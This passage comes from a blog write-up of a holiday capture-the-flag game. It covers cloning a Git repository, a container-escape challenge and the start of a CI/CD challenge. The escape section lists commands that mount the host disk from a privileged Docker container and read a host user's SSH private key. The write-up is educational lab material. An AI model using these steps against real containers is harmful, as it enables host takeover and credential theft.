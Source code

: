 ![Git terminal](/will-hack-for-coffee/assets/images/nft-for-christmas/git-terminal.png)

If you talk with him he hints you to try via http, so using this command works:

``
git clone git@haugfactory.com:asnowball/aws_scripts.git
``

Or if you don't pay attention to the hint you can directly browse to the [gitlab website](https://haugfactory.com/orcadmin/aws_scripts/-/blob/main/README.md) like I did.

## The great escape

![Objective: prison-escape](/will-hack-for-coffee/assets/images/nft-for-christmas/objective-prison-escape.png)

This time you are tasked to free a dwarf from a container and grab the jailer key on the host server. The hints points to a neat [snyk reference](https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/). Looking at the root of the filesystem there is a .dockerenv file confirming you are in a docker container. Escalating your privilege with `sudo su` you can then list the partition on the disk:

        grinchum-land:~# fdisk -l
        Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
        2048 cylinders, 64 heads, 32 sectors/track
        Units: sectors of 1 * 512 = 512 bytes

        Disk /dev/vda doesn't contain a valid partition table

Then create a folder named vda with `mkdir` in the mnt directory and mount that partition: 

`mount /dev/vda /mnt/vda`

You can then explore the filesystem of the host:

        grinchum-land:/mnt/vda/home/jailer/.ssh# ls
        jail.key.priv  jail.key.pub


And `cat` his private key:

![Jailer key](/will-hack-for-coffee/assets/images/nft-for-christmas/jailer-key.png)

# CI/CD shenanigans

![Objective: CI/CD](/will-hack-for-coffee/assets/images/nft-for-christmas/objective-CICD.png)

Now for the final objective of that track, the orcs have stolen the elfen ring and use it to power a web store selling banners and flags. The elves has established a foothold on the network but the website is using a tremendous amount of power just to be up, so hurry and get the ring back! 

The elf you just helped tells you that he accidentaly commited something, this time it's in an internal network so you can't browse directly to the source code. Let's clone that repo:

        git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
